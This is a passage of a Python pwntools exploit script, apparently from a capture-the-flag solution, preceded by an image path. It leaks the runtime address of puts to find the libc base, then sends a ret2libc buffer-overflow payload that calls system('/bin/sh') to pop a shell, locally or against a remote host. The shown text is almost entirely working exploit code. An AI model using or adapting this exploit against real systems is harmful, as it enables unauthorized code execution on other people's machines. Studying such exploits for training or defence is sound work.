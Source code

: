 ```py
    r.recvlines(2)
    r.sendline(payload)

    puts = u32(r.recvline(0))

    libc.address = puts - libc.sym.puts

    info(f'puts: {hex(puts)}')
    info(f'libc: {hex(libc.address)}')

    payload  = b'A' * 0x7f4
    payload += p32(libc.sym.system)
    payload += p32(elf.sym.main)
    payload += p32(next(libc.search(b'/bin/sh')))

    r.recvlines(2)
    r.sendline(payload)

    r.interactive()

if __name__ == '__main__':
    elf = ELF(PATH, checksec=True)
    libc = ELF("./libc.so.6", checksec=True)

    if args.REMOTE:
        r = remote(HOST, PORT)
    else:
        r = elf.process(aslr=False, env={})
    exploit(r)
```
